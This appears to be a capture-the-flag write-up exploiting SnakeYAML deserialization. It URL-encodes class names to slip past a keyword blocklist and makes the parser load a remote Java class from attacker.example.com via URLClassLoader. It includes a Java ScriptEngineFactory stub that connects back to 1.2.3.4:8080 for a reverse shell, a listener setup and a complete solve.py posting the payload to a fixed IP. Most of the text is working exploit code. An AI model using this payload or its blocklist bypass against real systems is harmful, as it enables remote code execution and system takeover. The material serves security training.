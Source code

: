The exploit requires:
1. A payload that bypasses the keyword filter using URL encoding
2. A malicious Java class that implements ScriptEngineFactory
3. A web server to host the malicious class
4. A netcat listener to receive the reverse shell

### Attack Flow

1. Create a malicious payload using URL-encoded keywords:
```python
doc = r"""
hostname: foo
port: 1337
databaseType: foo
databaseName: !!javax.script.S%63riptEngin%65Manager [!!java.net.URLCl%61ssLoader [[!!java.net.URL ["http://attacker.example.com/"]]]]
"""
```

2. Create a Java payload for the reverse shell:
```java
public class Exploit implements ScriptEngineFactory {
  public Exploit() throws Exception {
    Socket client = new Socket();
    client.connect(new InetSocketAddress("1.2.3.4", 8080));
    // ... shell setup code ...
  }
  // ... ScriptEngineFactory interface implementations ...
}
```

3. Send the exploit:
```python
r = requests.post("http://3.137.187.148:1337/", data=doc)
```

### Why It Works

The exploit succeeds because:
1. URL-encoded characters bypass the simple string-based blocklist
2. SnakeYAML processes the encoded characters during parsing
3. The ScriptEngineManager instantiation triggers class loading
4. Our malicious class gains execution through the ScriptEngineFactory interface

## Complete Solution

solve.py

```python
import requests

doc = r"""
hostname: foo
port: 1337
databaseType: foo
databaseName: !!javax.script.S%63riptEngin%65Manager [!!java.net.URLCl%61ssLoader [[!!java.net.URL ["http://attacker.example.com/"]]]]
"""

r = requests.post("http://3.137.187.148:1337/", data=doc)
print(r.text)
```

